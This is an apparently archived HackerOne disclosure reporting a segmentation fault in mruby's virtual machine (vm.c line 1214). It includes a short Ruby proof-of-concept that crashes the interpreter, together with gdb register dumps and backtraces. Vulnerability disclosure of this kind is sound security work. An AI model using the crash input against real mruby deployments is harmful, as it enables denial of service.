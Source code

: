# SIGSEGV - vm.c - line:1214

## Report Details
- **Report ID**: 201905
- **URL**: https://hackerone.com/reports/201905
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-01-29T11:09:12.690Z
- **Disclosed**: 2017-03-29T23:34:29.594Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
-------------------

The following code triggers the bug (attached as test_mrb_vm_exec_1214.rb):

	def test
	instance_exec do return to_enum:==end ensure end
	test

Debug - mirb
-------------------

	(gdb) r test_mrb_vm_exec_1214.rb 
	Starting program: /home/x/Desktop/research/3_fuzz/mruby/bin/mirb test_mrb_vm_exec_1214.rb
	mirb - Embeddable Interactive Ruby Shell

	 => :test

	Program received signal SIGSEGV, Segmentation fault.
	0x0000000000412418 in mrb_vm_exec (mrb=<optimized out>, proc=<optimized out>, pc=<optimized out>) at /home/x/Desktop/research/3_fuzz/mruby/src/vm.c:1214
	1214	        JUMP;
	(gdb) info reg
	rax            0x6fb4	28596
	rbx            0x8	8
	rcx            0x748350	7635792
	rdx            0x765520	7755040
	rsi            0x748350	7635792
	rdi            0x759010	7704592
	rbp            0x759010	0x759010
	rsp            0x7fffffffc780	0x7fffffffc780
	r8             0xfffffffffffffffc	-4
	r9             0x7ffff7acd7b8	140737348687800
	r10            0x4a	74
	r11            0x759030	7704624
	r12            0xfffffffffffffffc	-4
	r13            0x0	0
	r14            0x0	0
	r15            0x759030	7704624
	rip            0x412418	0x412418 <mrb_vm_exec+15352>
	eflags         0x10206	[ PF IF RF ]
	cs             0x33	51
	ss             0x2b	43
	ds             0x0	0
	es             0x0	0
	fs             0x0	0
	gs             0x0	0
	(gdb) l
	1209	        }
	1210	        mrb->c->stack[0] = result;
	1211	        mrb->c->stack = ci->stackent;
	1212	        pc = ci->pc;
	1213	        cipop(mrb);
	1214	        JUMP;
	1215	      }
	1216	      else {
	1217	        /* setup environment for calling method */
	1218	        proc = mrb->c->ci->proc = m;


Backtrace - mirb
-------------------

	(gdb) bt
	#0  0x0000000000412418 in mrb_vm_exec (mrb=<optimized out>, proc=<optimized out>, pc=<optimized out>) at /home/x/Desktop/research/3_fuzz/mruby/src/vm.c:1214
	#1  0x0000000000402e68 in main (argc=<optimized out>, argv=<optimized out>) at /home/x/Desktop/research/3_fuzz/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:549

Debug - mruby
-------------------

	(gdb) r test_mrb_vm_exec_1214.rb 
	Starting program: /home/x/Desktop/research/3_fuzz/mruby/bin/mruby test_mrb_vm_exec_1214.rb

	Program received signal SIGSEGV, Segmentation fault.
	0x00000000004120b8 in mrb_vm_exec (mrb=<optimized out>, proc=<optimized out>, pc=<optimized out>) at /home/x/Desktop/research/3_fuzz/mruby/src/vm.c:1214
	1214	        JUMP;
	(gdb) info reg
	rax            0x6fb4	28596
	rbx            0x8	8
	rcx            0x748330	7635760
	rdx            0x765520	7755040
	rsi            0x748330	7635760
	rdi            0x759010	7704592
	rbp            0x759010	0x759010
	rsp            0x7fffffffd900	0x7fffffffd900
	r8             0xfffffffffffffffc	-4
	r9             0x7ffff7acd7b8	140737348687800
	r10            0x4a	74
	r11            0x759030	7704624
	r12            0xfffffffffffffffc	-4
	r13            0x0	0
	r14            0x0	0
	r15            0x759030	7704624
	rip            0x4120b8	0x4120b8 <mrb_vm_exec+15352>
	eflags         0x10206	[ PF IF RF ]
	cs             0x33	51
	ss             0x2b	43
	ds             0x0	0
	es             0x0	0
	fs             0x0	0
	gs             0x0	0
	(gdb) l
	1209	        }
	1210	        mrb->c->stack[0] = result;
	1211	        mrb->c->stack = ci->stackent;
	1212	        pc = ci->pc;
	1213	        cipop(mrb);
	1214	        JUMP;
	1215	      }
	1216	      else {
	1217	        /* setup environment for calling method */
	1218	        proc = mrb->c->ci->proc = m;

Backtrace - mruby
-------------------

	(gdb) bt
	#0  0x00000000004120b8 in mrb_vm_exec (mrb=<optimized out>, proc=<optimized out>, pc=<optimized out>) at /home/x/Desktop/research/3_fuzz/mruby/src/vm.c:1214
	#1  0x000000000041bebd in mrb_vm_run (proc=0x75c150, self=..., stack_keep=4294967292, mrb=<optimized out>) at /home/x/Desktop/research/3_fuzz/mruby/src/vm.c:790
	#2  mrb_top_run (mrb=0x759010, proc=0x75c150, self=..., stack_keep=<optimized out>) at /home/x/Desktop/research/3_fuzz/mruby/src/vm.c:2514
	#3  0x00000000004a533f in mrb_load_exec (mrb=0x759010, p=<optimized out>, c=0x7b40e0) at /home/x/Desktop/research/3_fuzz/mruby/mrbgems/mruby-compiler/core/parse.y:5755
	#4  0x0000000000402c67 in main (argc=<optimized out>, argv=<optimized out>) at /home/x/Desktop/research/3_fuzz/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:232

Impact
-------------------

It can cause DoS.

## Attachments
- test_mrb_vm_exec_1214.rb
